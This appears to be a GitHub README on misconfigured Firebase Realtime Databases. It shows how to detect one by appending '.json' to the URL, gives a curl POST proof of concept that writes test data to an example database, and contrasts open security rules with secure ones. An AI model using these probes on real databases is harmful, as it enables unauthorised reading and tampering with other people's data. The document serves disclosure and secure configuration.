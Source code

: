 # Insecure-Firebase


Add '.json' at the end of firebase database url if you see `null` in reponse that means the firebase database is insecure and anyone can read and insert the data in the database

For example: https://insecure-firebase.firebaseio.com/.json returns `null`

## POC
```
curl -X POST https://insecure-firebase.firebaseio.com/testing.json \
-d '{"cat": "meow", "dog": "bowbow"}'
```
Now visit https://insecure-firebase.firebaseio.com/testing.json or https://insecure-firebase.firebaseio.com/.json

and you will see new data is added to database



## firebase configuration rules which leads to this vulnerability

```
{
  /* Visit https://firebase.google.com/docs/database/security to learn more about security rules. */
  "rules": {
    ".read": true,
    ".write": true
  }
}
```
As you can see in the above configuration both read and write set to true which means anyone can read and write to
this firebase database developer some times use this settings for testing purpose but letter forgets to change this
to only allow app users to read or write data.

## Default(secure) firebase rules configuration 

```
{
  /* Visit https://firebase.google.com/docs/database/security to learn more about security rules. */
  "rules": {
    ".read": false,
    ".write": false
  }
}
```
